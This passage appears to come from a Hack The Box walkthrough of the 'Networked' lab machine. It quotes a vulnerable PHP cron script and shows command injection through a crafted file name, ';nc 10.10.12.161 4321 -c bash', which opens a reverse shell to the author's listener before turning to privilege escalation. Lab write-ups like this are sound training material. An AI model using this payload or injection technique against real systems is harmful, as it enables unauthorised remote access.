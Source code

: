 ~~~~php

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
~~~~

If the files were to be believed, then a `cron` job will check and report to `guly` with `mail($to, $msg, $msg, $headers, "-F$value");` at every three minutes, for files in `/var/www/html/uploads` that doesn't begin with an IP address. This is easy to exploit. We can simply `touch` a file with a file name that begins with `;` to separate `sendmail` from the command that we want to execute.

```
$ touch ';nc 10.10.12.161 4321 -c bash'
```

Three minutes later, a reverse shell as `guly` appears in my `nc` listener.

<a class="image-popup">
![a23e4e9b.png](/assets/images/posts/networked-htb-walkthrough/a23e4e9b.png)
</a>

Let\'s [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) our shell to full TTY.

The file `user.txt` is at `guly`'s home directory.

<a class="image-popup">
![94e11c09.png](/assets/images/posts/networked-htb-walkthrough/94e11c09.png)
</a>

### Getting `root.txt`

During enumeration of `guly`\'s account, I notice `guly` is able to run the following command as `root` without password.

<a class="image-popup">
![f1268379.png](/assets/images/posts/networked-htb-walkthrough/f1268379.png)

[1]: https://www.hackthebox.eu/home/machines/profile/203
[2]: https://www.hackthebox.eu/home/users/profile/8292
[3]: https://www.hackthebox.eu/